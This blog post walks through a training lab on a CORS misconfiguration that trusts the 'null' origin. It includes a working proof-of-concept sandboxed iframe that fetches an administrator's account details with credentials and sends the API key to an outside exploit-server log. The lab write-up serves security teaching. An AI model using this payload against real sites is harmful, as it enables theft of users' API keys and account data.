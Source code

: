 ```yaml
---
layout: post
title:  "CORS vulnerability with trusted null origin"
date:   2024-10-16 11:20:54 +0530
---
```


## Introduction 

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter 

## Solution 

Same as a previous lab but the misconfiguration here is it trusts the `null` origin and you can confirm it by sending the following header `Origin: null` and In the response, `ACAO` responds with `null` as well through the `/accountDetails` endpoint 

![]({{ site.baseurl }}/assets/images/cors-11.png)

<p>
  &gt; If ACAO sets to <mark>null</mark>, then it allows the server able to call the 
  <code>file://</code> protocol, set up a sandboxed environment, and create an 
  <code>iframe</code> as well.
</p>

Then, with the following POC we are creating sandboxed iframe which will allow the iframe to run the scripts, allow the form submission and takes care of window navigation as well **(Allows the iframe to navigate the top-level browsing context)** 

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a9200df043194ec83c1559600ec001f.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0a3d00df0402945a83bd545801310064.exploit-server.net/log?key='+this.responseText;
};
</script>"></iframe>
```

Once after delivering the above POC to victim and checking the access log shows that we have got the administrator API key

![]({{ site.baseurl }}/assets/images/cors-12.png)

Take the API key and submit it as solution and solves the lab 

![]({{ site.baseurl }}/assets/images/cors-13.png)